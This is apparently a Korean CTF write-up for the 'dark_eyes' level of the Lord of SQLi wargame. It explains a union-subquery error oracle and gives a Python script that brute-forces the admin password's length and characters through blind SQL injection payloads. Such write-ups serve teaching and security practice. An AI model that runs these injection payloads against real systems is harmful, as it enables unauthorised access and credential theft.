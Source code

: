 Iron_golem에서 사용했던 방법은 조건이 참이면 Subquery 에러를 발생시켜 값을 검증하는 것이었다.<br>
하지만 **if**를 사용할 수 없고 에러가 출력되지 않으니 다른 방법을 사용해야한다.

![mysql-test](/assets/img/post/mysql-test.png)

mysql을 사용해 test 해보니 **select 1 union select [조건]** 에서 조건이 참이면 행이 하나만 출력된다.<br>
이를 이용해서 악의적인 쿼리가 참인 경우에만 오류가 나지 않도록 만든다.
```python
import requests
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'pw': f"' or id='admin' and pw=(select 1 union select length(pw) = {len})#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "select id from prob_dark_eyes where" in res.text:
    print(len)
    break

length = 8
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    param = {'pw': f"' or id='admin' and pw=(select 1 union select ord(substr(pw,{str(len)},1))={str(pw)})#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    if "select id from prob_dark_eyes where" in res.text:
      password += chr(pw)
      break
        
print(password.lower())
```
<br>
